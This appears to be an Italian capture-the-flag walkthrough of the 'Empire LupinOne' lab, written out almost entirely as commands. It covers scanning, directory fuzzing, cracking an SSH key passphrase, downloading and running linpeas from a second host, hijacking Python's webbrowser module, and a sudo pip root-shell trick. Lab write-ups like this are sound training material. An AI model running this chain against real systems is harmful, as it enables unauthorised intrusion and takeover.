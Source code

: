 # 🛡️ CyberCerberus: Seconda CTF Bonus - BuildWeek2

Benvenuto nel walkthrough professionale del CTF **Empire LupinOne**! Questo documento rappresenta il lavoro collaborativo del **TeamCyberCerberus**, che ha unito le proprie competenze per completare con successo il challenge. 💻

## [🏠 HOME](./README.MD)

---

## 🔍 **Pentesting Methodology**

### 1️⃣ **Network Scanning**
- **Identificazione dell'indirizzo IP target**:
  ```bash
  sudo nmap -p- -Pn -O -sV -sC -sS 192.168.1.7
  ```
- **Risultati**:
  - **Porta 80 (HTTP)**: Server web attivo. 

---

### 2️⃣ **Enumeration**

#### 🕵️‍♂️ Analisi del sito web
- Accesso alla porta 80 per esplorare il contenuto.
- Individuazione di `/robots.txt` che suggerisce una directory nascosta: `/~myfiles`.

#### ⚡ Fuzzing con FFUF
- Ricerca di directory nascoste:
  ```bash
  ffuf -u http://192.168.1.7/~FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c
  ```
- Directory scoperta: `/~secret`.

---

### 3️⃣ **Exploitation**

#### 🔐 Scoperta e decifrazione di chiavi SSH
- File SSH privato individuato in `/~secret`.
- Ricerca di file aggiuntivi con FFUF:
  ```bash
  ffuf -u http://192.168.1.7/~secret/.FUZZ -e .py,.java,.php,.dart,.rar,.zip,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c -ic -fc 403
  ```
- File trovato: `victim_id_rsa`.

#### 🛠️ Conversione e brute force della chiave SSH
- Conversione della chiave per John the Ripper:
  ```bash
  ssh2john victim_id_rsa > hash_password
  ```
- Brute force con John the Ripper:
  ```bash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash_password
  ```
  - **Password trovata**: `P@55w0rd!`

#### 🚀 Accesso SSH
- Connessione alla macchina target:
  ```bash
  ssh -i victim_id_rsa icex64@192.168.1.7
  ```
- **Flag utente**: `user.txt` 🎉.

---

### 4️⃣ **Privilege Escalation**

#### 🧑‍💻 Verifica dei privilegi di `sudo`
- Analisi dei permessi:
  ```bash
  sudo -l
  ```
  - Individuato file vulnerabile: `/home/arsene/heist.py`.

#### 🔍 Analisi con linpeas
- Esecuzione del tool:
  ```bash
  wget 192.168.1.8/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- Individuato file Python `webbrowser.py`:
  ```bash
  nano /usr/lib/python3.9/webbrowser.py
  ```
  - **Modifica**: aggiunta di `os.system("/bin/bash")`.

#### 🐍 Escalation con script Python
- Escalation dei privilegi:
  ```bash
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```
  - Accesso come utente `arsene`.

#### 📦 Escalation finale con pip
- Esecuzione exploit di pip:
  ```bash
  TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF
  ```
  - **Accesso root** 🎉.

---

## 🏆 **Root Flag**

- Lettura del flag root:
  ```bash
  cat /root/root.txt
  ```

---

## 🎯 **Conclusione**

Il CTF **Empire LupinOne** è stato completato con successo grazie alla sinergia del **TeamCyberCerberus**! 🔓 Questo walkthrough evidenzia l'importanza di strumenti come **nmap**, **FFUF**, **linpeas**, e tecniche di privilege escalation come **pip** e Python library hijacking. 💻

Grazie per aver seguito questa guida e per il supporto al nostro team! 💪

## [🏠 HOME](./README.MD)
